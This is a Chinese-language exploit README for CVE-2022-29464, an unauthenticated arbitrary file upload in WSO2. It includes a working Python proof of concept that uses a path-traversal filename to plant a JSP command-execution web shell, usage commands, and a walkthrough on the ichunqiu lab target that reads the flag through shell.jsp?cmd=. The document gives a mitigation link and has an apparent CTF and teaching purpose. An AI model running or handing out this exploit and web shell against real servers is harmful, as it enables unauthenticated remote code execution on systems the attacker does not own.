 # CVE-2022-29464 WSO2 RCE

## Description

WSO2文件上传漏洞(CVE-2022-29464)是 Orange Tsai 发现的 WSO2 上的严重漏洞。

该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意 JSP 文件在 WSO2 服务器上获得 RCE。

## Explanation of exploit

具体分析看这里 https://github.com/hakivvi/CVE-2022-29464

1. 这里使用春秋云镜靶标演示，春秋云镜靶标地址：https://yunjing.ichunqiu.com/cve/detail/734
2. 运行 PoC 脚本，上传 JSP 文件，成功获取 RCE; PoC 脚本方法为：`python3 exploit.py https://host:9443/ ArbitraryShellName.jsp`
3. 将host替换为目标，如 `python .\main.py https://eci-2zee9fyka677nqjaa6he.cloudeci1.ichunqiu.com:9443 shell.jsp`
    ![](images/CVE-2022-29464-1.png)
4. 打开浏览器访问目标，成功获取 RCE `https://eci-2zee9fyka677nqjaa6he.cloudeci1.ichunqiu.com:9443/authenticationendpoint/shell.jsp?cmd=cat+%2Fflag`
5. 获取 flag
    ![](images/CVE-2022-29464-2.png)

## PoC

```python
## exploit.py

import requests, urllib3, sys

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

if len(sys.argv) != 3:
    print(f"Usage: python3 {sys.argv[0]} https://host shell.jsp")
    exit()

host, file = sys.argv[1:]
shell = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""

files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": shell}
response = requests.post(f'{host}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {host}/authenticationendpoint/{file}")
```


## Mitigation

- https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2021-1738


## Refer

- https://github.com/hakivvi/CVE-2022-29464
- https://yunjing.ichunqiu.com/cve/detail/734